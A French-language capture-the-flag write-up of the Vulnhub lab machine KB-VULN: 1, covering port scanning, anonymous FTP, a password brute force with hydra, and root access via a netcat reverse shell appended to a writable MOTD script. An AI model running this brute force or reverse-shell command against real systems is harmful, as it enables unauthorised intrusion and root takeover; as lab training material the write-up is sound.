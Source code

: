 ```yaml
---
layout: default
title: "Writeup KB-VULN: 1 - Vulnhub"
date:   2020-09-05 07:00:00 +0200
published: true
categories:
  - Writeup
---
```


# Informations sur la box :

* **Difficulté** : Moyenne
* **Description** : *ENUMERATION ENUMERATION and ENUMERATION! This VM is running on VirtualBox. And has 2 flags:user.txt and flag.txt. This works better with VirtualBox rather than VMware*
* **Type de fichier** : .ova (VirtualBox)
* **DHCP** : Activé
* **Lien** : [https://www.vulnhub.com/entry/kb-vuln-1,540/](https://www.vulnhub.com/entry/kb-vuln-1,540/)


### Ce que nous allons aborder dans ce writeup :

*	[Énumération](#énumération)
* 	[Shell basique](#shell-basique)
*	[Privilege escalation](#privilege-escalation)

* * *

## Énumération
* * *

Malgré le fait qu'elle soit classée "medium" cette box peut concurrencer celle de mon [précédent writeup](https://kr0wz.github.io/fr/2020/09/05/writeup-shelldredd.html) en terme de rapiditer à la finir.

On commence à avoir l'habitude avec les étapes du début :

```bash
nmap -sP 192.168.1.0/24
```

On obtient l'adresse IP de la machine à attaquer qui est la suivante : **192.168.1.32**

On scanne ensuite les ports pour trouver ceux qui sont ouverts avec les services qui tournent dessus :

```bash
nmap -sV -p- 192.168.1.32 -O -A --min-rate 5000 -T5
```

* **-sV** : Permet de scanner les services et d'indiquer les versions et les informations correspondantes
* **-p-** : On scan TOUS les ports
* **-O** : Détection de l'OS
* **-A** : Mode aggressif
* **--min-rate 5000** : Définit le nombre d'envoi de paquets par secondes
* **-T5** : Définit le template comme "rapide"

Pour plus d'informations vous pouvez consulter le ``man`` de nmap.

On obtient :

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: OneSchool &mdash; Website by Colorlib
```

Le serveur **FTP** autorise les **connexion anonymes**. On sait donc qu'il y a de grandes chances de trouver quelque chose d'intéressant dessus.

On s'y connecte avec la commande suivante :

```bash
ftp 192.168.1.32
```

On précise l'utilisateur **anonymous** et on laisse le champ du mot de passe vide.

Il n'y a qu'un fichier **.bash_history** qui correspond au fichier dans lequel les commandes entrées par un utilisateur lorsqu'il est sur sa session sont enregistrées. On le récupère via le FTP puis on affiche son contenu

```bash
get .bash_history
exit
cat .bash_history
```
```
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
```

On obtient l'information de l'existence du fichier ``00-header`` contenu dans le répertoire ``/etc/update-motd.d/``. Il s'agit du **Message Of The Day** (MOTD).

Il est exécuté lorsqu'on se connecte au SSH et contient souvent les informations de la date actuelle et peut être personnalisé.


On se rend du côté du serveur web en lançant notre merveilleux outil **fuff** :

```bash
/opt/ffuf/ffuf -u http://192.168.1.32/FUZZ -w /usr/share/dirb/wordlists/directory-list-2.3-big.txt -e .html,.txt,.php
```

On a pour résultat des dossiers basiques qui n'ont pas grand intérêt à première vue :

```
images                  [Status: 301, Size: 313, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 25578, Words: 6731, Lines: 565]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

On se rend directement sur le site web [http://192.168.1.32](http://192.168.1.32) et on regarde le **code source**. 

Au début rien puis vers la fin on voit un commentaire plutôt intéressant :

```html
<!-- Username : sysadmin -->
```

Ok ! On possède déjà un nom d'utilisateur !

J'ai donc continué d'éplucher toutes les pages du serveur web mais rien d'autre a signaler.

J'ai cru que j'étais tombé sur un fichier important à l'adresse [http://192.168.1.32/fonts/flaticon/backup.txt](http://192.168.1.32/fonts/flaticon/backup.txt) mais après décodé le base 64 il s'agissait simplement d'informations liées à une image.

* * *

## Shell basique

A ce moment nous n'avons qu'un nom d'utilisateur sans mot de passe. Ne serait-ce pas le moment de tenter un **brute force** du serveur SSH ?

Pour ce faire on utilise ``hydra`` avec la commande suivante :

```bash
hydra -l sysadmin -P /usr/share/wordlist/rockyou.txt 192.168.1.32 -t 4 ssh -s 22
```

On indique l'utilisateur que l'on a trouvé précédemment, la wordlist ainsi que le service  brute forcer. Dans notre cas SSH sur le port 22.

Après quelques instants un résultat sort :

```
[22][ssh] host: 192.168.1.32   login: sysadmin   password: password1
```

On peut donc se connecter en SSH avec les identifiants suivants : **sysadmin:password1**

On peut directement récupérer le flag user :

```bash
cat /home/sysadmin/user.txt
```
```
48a365b4ce1e322a55ae9017f3daf0c0
```

* * *

## Privilege escalation

On se souvient du fichier qui était dans le FTP : **.bash_history**                                                                                                                                    
Allons voir les droits du fichier qui contient le ``motd`` :

```bash
ls -la /etc/update-motd.d/00-header

-rwxrwxrwx 1 root root 1074 Sep  6 08:12 /etc/update-motd.d/00-header
```

Très bonne nouvelle : on peut le **modifier** !

Comme dit précédement ce fichier est exécuté en tant que root à chaque fois qu'une session SSH est ouverte. 

De ce fait il nous suffit d'y ajouter un reverse shell, de quitter la session et de s'y reconnecter pour obtenir un accès root sur la machine :

```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.1.16 4444 >/tmp/f" >> /etc/update-motd.d/00-header
```

De notre côté un se met en mode écoute avec ``nc`` :

```bash
nc -lnvp 4444
```

On se reconnecte avec SSH et magie ! Nous sommes root.

Il ne nous reste plus qu'à récupérer le dernier flag :

```bash
cat /root/flag.txt
```
```
1eedddf9fff436e6648b5e51cb0d2ec7
```

Cette box n'était pas très compliquée mais bien fun à faire :)

Merci à **MachineBoy** pour avoir créé et partagé cette machine !